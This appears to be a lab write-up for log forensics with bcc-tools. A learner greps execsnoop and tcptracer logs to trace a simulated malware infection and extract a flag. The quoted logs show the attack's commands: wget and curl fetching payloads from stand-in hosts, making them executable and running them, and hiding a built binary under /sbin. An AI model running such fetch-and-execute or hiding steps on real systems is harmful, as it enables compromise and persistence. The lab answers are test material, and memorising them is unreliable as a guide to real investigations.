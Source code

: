 #### 8. BCC Tools: Combo I

----

A newly appointed sysadmin was assigned a job to monitor the system activity. He ended up using a couple of scripts available from bcc-tools, and had recorded output from them. So there is different info available from different logs. Could you help him answer the following questions:

```sh
root@attackdefense:~# ls -l
total 12
-rw-rw-r-- 1 root root 3257 Jun 27 10:26 execsnoop.logs
-rw-rw-r-- 1 root root 6368 Jun 27 10:27 tcptracer.logs
root@attackdefense:~# 
```

- A malicious process had downloaded a payload script into /tmp directory using wget. What is the name of the malicious process?

```sh
root@attackdefense:~# grep wget execsnoop.logs
 80173  80171 /bin/sh -c wget -O /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe http://abc.pqr.xyz.local/payload.sh
 80174  80173 wget -O /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe http://abc.pqr.xyz.local/payload.sh
root@attackdefense:~#
```

```sh
root@attackdefense:~# grep 80171 execsnoop.logs
 80171  80164 ./random-sample
 80172  80171 /bin/sh -c mkdir /tmp/.b1b1d2597a4ff853e0de332dced213b3/
 80173  80171 /bin/sh -c wget -O /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe http://abc.pqr.xyz.local/payload.sh
 80223  80171 /bin/sh -c chmod +x /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
 80225  80171 /bin/sh -c /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
root@attackdefense:~#
```

```
random-sample
```

- What is the absolute path of the directory where the malicious process had downloaded the payload script?

```sh
# grep wget execsnoop.logs
# grep 80171 execsnoop.logs
/tmp/.b1b1d2597a4ff853e0de332dced213b3
```

- What is the IP address of the remote machine from which the payload script had been downloaded using wget?

```sh
root@attackdefense:~# grep wget tcptracer.logs
C  80174  wget             4  192.168.161.139  192.168.36.3     40864  80
X  80174  wget             4  192.168.161.139  192.168.36.3     40864  80
root@attackdefense:~#
```

```
192.168.36.3
```

- The malicious process passed the execution control to the payload script and terminated itself. The script had retrieved a gzip compressed archive from a remote machine and built a binary from the downloaded source. What is the domain name of the remote machine from which the archive was retrieved?

```sh
root@attackdefense:~# less execsnoop.logs
Tracing exec()s. Ctrl-C to end.
Instrumenting sys_execve
   PID   PPID ARGS
 79930  79926 mawk -W interactive -v o=1 -v opt_name=0 -v name= [...]
 79931  79929 cat -v trace_pipe
 79932   7592 bash
 79934  79933 lesspipe
 79935  79934 basename /usr/bin/lesspipe
 79937  79936 dirname /usr/bin/lesspipe
 79939  79938 dircolors -b
 79941  79940 ls /etc/bash_completion.d
 79950   7592 bash
 79952  79951 lesspipe
 79953  79952 basename /usr/bin/lesspipe
 79955  79954 dirname /usr/bin/lesspipe
 79957  79956 dircolors -b
 79959  79958 ls /etc/bash_completion.d
 79968   7592 bash
 79970  79969 lesspipe
 79971  79970 basename /usr/bin/lesspipe
 79973  79972 dirname /usr/bin/lesspipe
 79975  79974 dircolors -b
 79977  79976 ls /etc/bash_completion.d
 79987  79986 /usr/lib/firefox/firefox -contentproc -childID 37 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 79992  79991 /usr/lib/firefox/firefox -contentproc -childID 38 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80030  80029 /usr/lib/firefox/firefox -contentproc -childID 39 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80057  80055 /usr/lib/firefox/firefox -contentproc -childID 40 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80075  80071 /usr/lib/firefox/firefox -contentproc -childID 41 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80105  80104 /usr/lib/firefox/firefox -contentproc -childID 42 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80128  80127 /usr/lib/firefox/firefox -contentproc -childID 43 -isForBrowser -prefsLen 8989 -prefMapSize 179756 [...]
 80164  75778 sudo ./random-sample
 80171  80164 ./random-sample
 80172  80171 /bin/sh -c mkdir /tmp/.b1b1d2597a4ff853e0de332dced213b3/
 80173  80171 /bin/sh -c wget -O /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe http://abc.pqr.xyz.local/payload.sh
 80175  80172 mkdir /tmp/.b1b1d2597a4ff853e0de332dced213b3/
 80174  80173 wget -O /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe http://abc.pqr.xyz.local/payload.sh
 80195  80194 x-terminal-emulator
 80199  80195 /usr/bin/gnome-terminal.real
 80203   7592 bash
 80205  80204 lesspipe
 80206  80205 basename /usr/bin/lesspipe
 80208  80207 dirname /usr/bin/lesspipe
 80210  80209 dircolors -b
 80212  80211 ls /etc/bash_completion.d
 80221  80203 ifconfig
 80222  80203 ps aux
 80223  80171 /bin/sh -c chmod +x /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
 80224  80223 chmod +x /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
 80225  80171 /bin/sh -c /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
 80226  80225 /tmp/.b1b1d2597a4ff853e0de332dced213b3/.exe
 80227  80226 ls -al
 80228  80226 ps aux
 80229  80226 whoami
 80230  80226 uname -a
 80231  80226 mkdir /tmp/.8fb2de9a69d21e8b5e355cea023ff371/
 80232  80226 curl http://xyz.fake-domain.onion:8000/packages.tar.gz > /tmp/.8fb2de9a69d21e8b5e355cea023ff371/packages.tar.gz
 80233  80226 tar xzvf /tmp/.8fb2de9a69d21e8b5e355cea023ff371/packages.tar.gz
 80234  80233 gzip -d
 80235  80226 make
 80236  80226 make install
 80237  80226 make clean
 80238  80226 mv bin/simple-binary /sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary
 80239  80226 rm -rf /tmp/.8fb2de9a69d21e8b5e355cea023ff371
:
```

```
xyz.fake-domain.onion
```

- The binary built from source is stored in /sbin directory. Provide the full path of the binary.

```sh
# root@attackdefense:~# less execsnoop.logs
/sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary
```

- Retrieve the flag stored in the binary.

```sh
root@attackdefense:~# file /sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary
/sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=78f1a9545ab7408ff8a664cd5bb9917522f57450, not stripped
root@attackdefense:~#
```

```sh
root@attackdefense:~# strings /sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary | grep -i flag
FLAG = ce859f7b2d82cc7c06eb75b95707708f
root@attackdefense:~#
```

```sh
root@attackdefense:~# /sbin/.3d9d001b2e1cffeb6b2d85098ef56363/.simple-binary
FLAG = ce859f7b2d82cc7c06eb75b95707708f
Exploit code:
Contacting Command-and-Control server...
Extracting system info...
root@attackdefense:~#
```

```
ce859f7b2d82cc7c06eb75b95707708f
```

----

###### References:

- [Execsnoop script](https://github.com/iovisor/bcc/blob/master/tools/execsnoop.py)
- [Execsnoop Examples](https://github.com/iovisor/bcc/blob/master/tools/execsnoop_example.txt)
- [Tcptracer script](https://github.com/iovisor/bcc/blob/master/tools/tcptracer.py)
- [Tcptracer Examples](https://github.com/iovisor/bcc/blob/master/tools/tcptracer_example.txt)
- [BCC Tools](https://github.com/iovisor/bcc)

----

EOF
